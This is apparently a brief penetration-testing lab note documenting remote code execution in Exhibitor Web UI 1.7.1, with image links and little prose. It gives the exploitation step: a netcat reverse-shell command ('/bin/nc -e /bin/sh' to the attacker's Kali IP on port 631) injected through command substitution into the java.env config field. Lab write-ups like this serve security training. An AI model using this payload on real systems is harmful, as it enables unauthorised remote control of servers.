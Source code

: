 ![](Images/Pasted%20image%2020221029153255.png)
![](Images/Pasted%20image%2020221029153321.png)
#RemoteCodeExecution-ExhibitorWebUI1.71
---

# Exploitation
## Name of the technique
## Remote Code Execution - Exhibitor Web UI 1.7.1

#### -Clicked on the Config tab, then flipped the Editing switch to ON. Typed " $(/bin/nc -e /bin/sh [kali IP] 631 &)" in the java.env script area:

![](Images/Pasted%20image%2020221029153712.png)